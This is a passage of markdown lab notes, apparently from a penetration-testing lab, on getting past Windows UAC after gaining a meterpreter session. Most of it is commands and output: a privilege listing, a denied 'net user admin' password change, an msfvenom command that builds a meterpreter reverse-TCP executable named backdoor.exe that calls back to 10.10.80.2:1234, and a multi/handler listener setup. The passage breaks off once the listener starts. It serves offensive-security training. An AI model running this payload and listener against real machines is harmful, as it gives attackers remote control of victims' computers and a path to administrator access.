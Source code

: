 this user can execute commands and programs with elevated privileges  but in order to do that you will need to bypass UAC

<br />

**get privileges of the current user **

```bash
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

<br />

**Trying to change the password of `admin` user**

the command is denied because of the UAC

```
C:\Windows\system32>net user admin password123
net user admin password123
System error 5 has occurred.

Access is denied.

```

<br />

```bash

======================================================
create msfvenom payload
======================================================
root@attackdefense:~/Desktop/tools/UACME# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.80.2 LPORT=1234 -f exe > backdoor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes



======================================================
set the listener
======================================================
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.80.2
LHOST => 10.10.80.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.80.2:1234 

```